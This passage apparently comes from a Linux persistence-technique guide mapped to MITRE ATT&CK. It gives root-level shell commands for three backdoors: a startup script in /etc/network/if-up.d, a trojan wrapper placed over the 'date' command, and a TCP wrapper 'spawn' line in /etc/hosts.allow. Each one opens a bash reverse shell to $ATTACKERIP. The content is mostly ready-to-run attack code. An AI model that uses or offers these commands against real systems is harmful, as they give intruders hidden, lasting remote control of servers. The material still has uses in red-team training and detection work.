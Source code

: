 	$ Command:
	
	root@victim$ STARTUPNAME='upsdoor'
	root@victim$ PATH2STARTUPNAME=/etc/network/if-up.d/$STARTUPNAME

	root@victim$ cat << EOF > $PATH2STARTUPNAME
	#!/bin/sh
	# Creating startup service 
	bash -i >& /dev/tcp/$ATTACKERIP/8888 0>&1 & 2>/dev/null
	EOF

	root@victim$ chmod +x $PATH2STARTUPNAME

## Creating binary wrapper

[MITRE ID: T1574.008](https://attack.mitre.org/techniques/T1574/008/)

An adversary may create a wrapper from a legitimate binary as simple as shown below. Whenever any user types command `date`, a reverse shell is spawned to the C2.

Required: root privilege

	$ Command:
	
	root@victim$ touch /usr/local/bin/date
	root@victim$ cat << EOF > /usr/local/bin/date
	#!/bin/bash
	# Creating binary wrapper
	bash -i >& /dev/tcp/$ATTACKERIP/9999 0>&1 & 2>/dev/null
	/bin/date $@
	EOF
	root@victim$ chmod +x /usr/local/bin/date

## Creating TCP wrapper

Basic traffic filtering of incoming network traffic is provided by TCP wrappers. Other systems can be granted or refused access to "wrapped" network services running on a Linux server [3].

TCP wrappers rely on two configuration files as the basis for access control:

-   ***/etc/hosts.allow***
-   ***/etc/hosts.deny***

These files are used to determine whether or not a client may connect to a network service on a remote host. 
As for PoC, if someone connects to any port on the target machine such as SSH, a reverse shell will be spawned to the adversary server.

Required: root privilege

	$ Command:

	root@victim$ echo -e "Creating TCP wrapper\nALL: ALL: spawn (bash -c '/bin/bash -i >& /dev/tcp/$ATTACKERIP/4545 0>&1') & :allow" >> /etc/hosts.allow
